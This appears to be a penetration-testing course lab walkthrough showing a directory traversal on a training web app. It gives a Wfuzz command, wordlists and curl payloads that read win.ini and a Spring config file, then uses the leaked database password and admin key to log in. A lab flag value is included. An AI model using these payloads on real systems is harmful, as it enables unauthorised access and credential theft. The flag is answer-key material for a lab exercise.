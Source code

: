 This Learning Unit covers the following Learning Objectives:

1. Discover a directory traversal vulnerability
2. Exploit the directory traversal and obtain the application config file
3. Access the admin portion of the web application

In this Learning Unit, we will use what we discovered while enumerating the web application to find and craft an exploit for a directory traversal vulnerability. Then we'll obtain access to the admin portion of the web application.

---------

#### 16.3.1. Finding a Directory Traversal

In the previous Learning Unit, we identified the `/specials?menu=winter.html` endpoint for further testing and sent the original request to Repeater. Let's go to Repeater and click _Send_ so we have a baseline request and response.

![[Pasted image 20241108143652.png]]

Since the _menu_ parameter value references a file, let's try modifying it to a different value and checking how the application responds. We'll change `winter.html` to `web200.html`, then click _Send_.

![[Pasted image 20241108143734.png]]

The server responded with an empty HTTP 200 OK. We'll need to do some more testing here. Because it seems like the application might be retrieving a file based on the parameter value, let's try accessing a file on the server using a directory traversal attack.

We could run a tool like Wfuzz with a wordlist, but let's try some targeted attacks first. If our manual testing fails, we can always use wordlists to expand our testing in case we missed something or misinterpreted results.

First, let's consider what we learned from our Nmap scans during enumeration to help guide our manual testing.


As recapped in Listing 5, our Nmap scans found TCP port 3389 open, but identified the OS as an embedded AVtech device or Windows. Since we're assessing a web application, we are likely dealing with some version of Windows.

```bash
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
```
If the server is a version of Windows, then `C:\windows\win.ini` may be present. Some versions of Windows don't include this file,[1](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/authentication-bypass-37069/finding-a-directory-traversal-37053#fn-local_id_289-1) but we should still check for it.

***On a Linux server, we would instead first check for /etc/passwd.***

We'll need to add several instances of "../" to our payload to traverse back to the base directory of the server. In Repeater, let's change "web200.html" to `../../../../../../../windows/win.ini` and click _Send_.

![[Pasted image 20241108155149.png]]

Excellent. The server response includes what appears to be the contents of win.ini. We have verified the existence of a directory traversal vulnerability. In the next section, we'll focus on exploiting this vulnerability.

#### 16.3.2 Exploiting a Directory Traversal

Before we continue exploiting the application, let's recap what we've discovered so far. We've identified a directory traversal vulnerability in a Java application using Spring and running on a Windows server. Perhaps we can use the directory traversal to access the application's configuration files.

According to the documentation,[1](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/authentication-bypass-37069/exploiting-a-directory-traversal-37052#fn-local_id_290-1) Spring applications load properties from application.properties files in four locations:

1. A /config subdirectory of the current directory.
2. The current directory
3. A classpath /config package
4. The classpath root
Additionally, the config file could be a .yml file instead of .properties. In Java, _classpath_[2](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/authentication-bypass-37069/exploiting-a-directory-traversal-37052#fn-local_id_290-2) refers to a location that contains dependencies outside of the standard Java files. This could be located anywhere on the server, so let's start with our focus on the first two locations.

Wfuzz can fuzz multiple payloads,[3](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/authentication-bypass-37069/exploiting-a-directory-traversal-37052#fn-local_id_290-3) which means we can make two small wordlists. One will contain path traversal strings. In the previous section, seven instances of "../" were enough to traverse back to the root of the C:\ drive. With that in mind, let's create paths.txt with a list of traversal strings, starting with one "../" and building up to a total of seven.

```bash
kali@kali:~$ nano paths.txt

kali@kali:~$ cat paths.txt
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```

Next, let's build a list of file names. We are searching for `application.properties` or `application.yml`. Since the file could be in the current directory or a /config subdirectory, we'll add /config to our new file.

```bash
kali@kali:~$ nano files.txt
                                                  
kali@kali:~$ cat files.txt
application.properties
application.yml
config/application.properties
config/application.yml
```


When we run Wfuzz, it will combine the contents of the two files together, matching each payload in the first file with each payload in the second file. In other words, because paths.txt has seven payloads and files.txt has four, Wfuzz should send twenty-eight requests.

Let's try running Wfuzz with our wordlists. We need to specify them in order of use, so we'll set -w paths.txt and then -w files.txt. We'll also set --hh 0 to filter out any empty responses. Finally, we'll add our URL with FUZZFUZ2Z in the query string to mark two places to fuzz.

```bash
kali@kali:~$ wfuzz -w paths.txt -w files.txt --hh 0 http://asio/specials?menu=FUZZFUZ2Z
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://asio/specials?menu=FUZZFUZ2Z
Total requests: 28

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                   
=====================================================================

000000003:   200        18 L     21 W       523 Ch      "../ - config/application.properties"

Total time: 0
Processed Requests: 28
Filtered Requests: 27
Requests/sec.: 0
```
Wfuzz found one response with a non-zero response size. Let's use curl with the combined payload to get the full response.

```bash
kali@kali:~$ curl http://asio/specials?menu=../config/application.properties
# STRIGI'S PIZZA 
server.port=80
server.address=0.0.0.0
spring.web.resources.cache.cachecontrol.max-age=1d
# LOGGING
logging.file.name=logs/strigi.log
logging.level.root=WARN

# DATABASE
spring.datasource.driver-class-name=com.microsoft.sqlserver.jdbc.SQLServerDriver
spring.datasource.url=jdbc:sqlserver://127.0.0.1;databaseName=strigi

spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ

spring.datasource.hikari.max-lifetime=30

# ADMIN PORTAL
admin.portal.key=06c82a1f-892d-48de-8682-67c0c3a096b4
```

Nice. Our directory traversal attack worked and we now have access to the application.properties file. Based on our previous Nmap scans, the application's database isn't externally accessible. Perhaps we can use the "admin.portal.key" value on the login page we found earlier.

Let's return to our browser and go to /login. We'll change the "Login Method" to "API Key", enter the value from application.properties in the `API Key` field, and click `Login`.

![[Pasted image 20241108160946.png]]
Flag:
6cedf41e3cf7a537a7cf137fd54c1104
![[Pasted image 20241108222322.png]]



Excellent. We've successfully logged in to the admin section. Now that we have access to another section of the web application, we'll need to enumerate any new pages and functionality.

The admin page will display the contents of local.txt. We can submit this value on the Labs page to gain credit for completing the authentication bypass portion of this challenge machine.

In the next Learning Unit, we will focus on discovering and exploiting a vulnerability in the authenticated section of the application to obtain remote code execution.

(Webb, Syer, et al., 2016), [https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/authentication-bypass-37069/exploiting-a-directory-traversal-37052#fnref-local_id_290-1)
(Oracle, 2021), [https://docs.oracle.com/javase/tutorial/essential/environment/paths.html](https://docs.oracle.com/javase/tutorial/essential/environment/paths.html) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/authentication-bypass-37069/exploiting-a-directory-traversal-37052#fnref-local_id_290-2)
(Xavi Mendez, 2020), [https://wfuzz.readthedocs.io/en/latest/user/getting.html#multiple-payloads](https://wfuzz.readthedocs.io/en/latest/user/getting.html#multiple-payloads) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/authentication-bypass-37069/exploiting-a-directory-traversal-37052#fnref-local_id_290-3)